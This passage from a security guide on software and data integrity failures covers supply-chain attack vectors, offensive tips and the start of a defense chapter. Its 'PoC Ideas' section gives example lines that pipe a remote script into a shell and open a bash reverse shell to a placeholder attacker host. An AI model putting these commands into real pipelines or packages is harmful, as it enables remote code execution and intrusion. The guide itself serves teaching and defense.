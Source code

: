 * **Attack Vector:** Injecting sensitive keys, credentials, or altering environment variables to change app behavior.
* **Use Case:**

  * Altering `ENV=development` to expose verbose error messages or debug interfaces.

---

## ⚔️ 10. **Backdoored Binaries & Compilers**

* **Attack Vector:** Supply-chain compromise where compilers or interpreters themselves are trojanized (Ref: Ken Thompson’s "Trusting Trust").
* **Effect:**

  * Any compiled code is inherently compromised regardless of source code audit.

---

### 🧠 Offensive Mindset Tips

* **Analyze CI/CD scripts** for hidden logic.
* **Pull public images/packages**, reverse engineer, and compare checksums.
* **Scan IaC files** for hardcoded secrets, open access, or malicious automation.
* **Exploit package manager behavior** (e.g., install order, default registries).
* **Use MITM on insecure update mechanisms** to inject tampered data.

---

### 🧪 PoC Ideas:

* Create a **malicious npm package** mimicking an internal name (`acme-utils`).
* Inject reverse shell logic in `.postinstall` script.
* Poison Dockerfiles with `wget http://evil.sh | sh`.
* Modify a `Jenkinsfile` to include `bash -i >& /dev/tcp/attacker-ip/4444 0>&1`.

---

## ✅ **Chapter 6: Prevention & Blue Team (Defense Against Software & Data Integrity Failures – Deep Dive)**

🔐 **What Are You Defending Against?**
Software and Data Integrity Failures involve unauthorized changes to code, infrastructure, or configurations. Attackers aim to manipulate CI/CD pipelines, inject malicious dependencies, tamper with updates, or exploit misconfigured repositories.

---

### 🛡️ **1. Secure Software Supply Chain**

* ✅ Use **cryptographic signatures** (GPG, Sigstore) to verify source code and third-party packages.
* ✅ Enforce **SBOM (Software Bill of Materials)** to track every component and its origin.
* ✅ Use only **trusted package registries** (e.g., PyPI, Maven Central).
* ✅ Scan third-party components for tampering or malicious behavior using tools like [Trivy](https://github.com/aquasecurity/trivy) or [Syft/Grype](https://github.com/anchore/syft).

---